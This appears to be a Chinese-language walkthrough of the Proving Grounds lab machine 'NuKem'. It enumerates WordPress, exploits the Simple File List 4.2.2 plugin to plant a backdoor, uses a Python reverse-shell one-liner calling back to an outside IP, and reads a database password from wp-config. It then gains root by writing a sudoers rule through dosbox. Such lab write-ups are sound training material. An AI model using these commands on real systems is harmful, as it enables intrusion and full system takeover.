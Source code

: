 ```yaml
---
title: Proving Grounds Practice-NuKem
date: 2025-6-07 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息收集

## nmap

![image-20250607161510342](./Nukem/image-20250607161510342.png)

## 80-WordPress

nmap扫描可以得到wordpress 版本

![image-20250607170801110](./Nukem/image-20250607170801110.png)

`wpscan`工具是用来扫描`WordPress`漏洞的，通过wpscan扫描可以得到存在漏洞的插件，主题等

WordPress版本是5.5.1

![image-20250607171120165](./Nukem/image-20250607171120165.png)

主题版本为1.0.1，最新版本为1.5.2

![image-20250607171138972](./Nukem/image-20250607171138972.png)

插件`simple-file-list`最新版本为`6.1.13`当前版本为`4.2.2`

插件`tutor`最新版本为`3.2.3`当前版本为`1.5.3`

![image-20250607171215235](./Nukem/image-20250607171215235.png)

## 5000端口

5000端口扫目录也没有有用信息，只能得到一个后端信息

![image-20250607171822097](./Nukem/image-20250607171822097.png)

## 13000端口

登录信息以`get`方式上传，但好像输入什么都没反应

![image-20250607172023563](./Nukem/image-20250607172023563.png)

# 漏洞利用

## Simple-File-List-4.2.2---Remote-Code-Execution

https://github.com/hermh4cks/Wordpress-Plugin-Simple-File-List-4.2.2---Remote-Code-Execution.git

该插件存在远程代码执行，可以使用现成exp

![image-20250607172851491](./Nukem/image-20250607172851491.png)

运行该exp会上传一个后门，可以访问后门进行命令执行

![image-20250607173005880](./Nukem/image-20250607173005880.png)

## get-shell

可以执行该命令来反弹shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.198",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

![image-20250607173629516](./Nukem/image-20250607173629516.png)

查看`/etc/passwd`中有两个运用bash会话的用户，当前是`http`用户，需要先切换到`commander`用户再进行提权

![image-20250607174054121](./Nukem/image-20250607174054121.png)

在`wp-config.php`中有数据库连接密码，用户正好是`commander`

![image-20250607173947291](./Nukem/image-20250607173947291.png)

```
CommanderKeenVorticons1990
```

使用该密码切换用户可以成功切换

![image-20250607174252671](./Nukem/image-20250607174252671.png)

# 提权

![image-20250607175653955](./Nukem/image-20250607175653955.png)

可以任意文件写入，可以更改`sudoers`中`commander`用户的权限

![image-20250607175807240](./Nukem/image-20250607175807240.png)

```
LFILE='/etc/sudoers'
/usr/bin/dosbox -c 'mount c /' -c "echo commander    ALL=(ALL:ALL) ALL >c:$LFILE" -c exit
```

![image-20250607180126927](./Nukem/image-20250607180126927.png)